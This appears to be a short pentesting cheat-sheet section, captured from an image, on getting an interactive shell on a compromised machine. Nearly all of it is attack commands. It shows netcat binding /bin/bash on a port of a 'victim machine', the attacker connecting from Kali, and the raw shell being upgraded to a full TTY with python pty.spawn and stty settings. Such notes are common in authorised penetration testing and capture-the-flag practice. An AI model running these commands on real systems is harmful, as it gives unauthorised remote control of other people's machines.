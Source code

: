 ## Get shell with TTY

* on victim machine
```bash
nc -l -p 8080 -e /bin/bash
```
* on local machine
```bash
nc VICTIM_MACHINE_IP 8080 -v
```
* test the connection with a command
```bash
id
```
* let's now spawn a better shell with python; and improve it with TTY

```bash
## Inside NC shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z Send now the netcat connection to background

## In Kali
$ echo $TERM
# To get get xterm-256color (we need it later)
$ stty -a
# To Get TTY configuration (we need columns and rows - speed 38400 baud; rows 69; columns 266; line = 0;)
$ stty raw -echo
$ fg
$ <ENTER>
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```
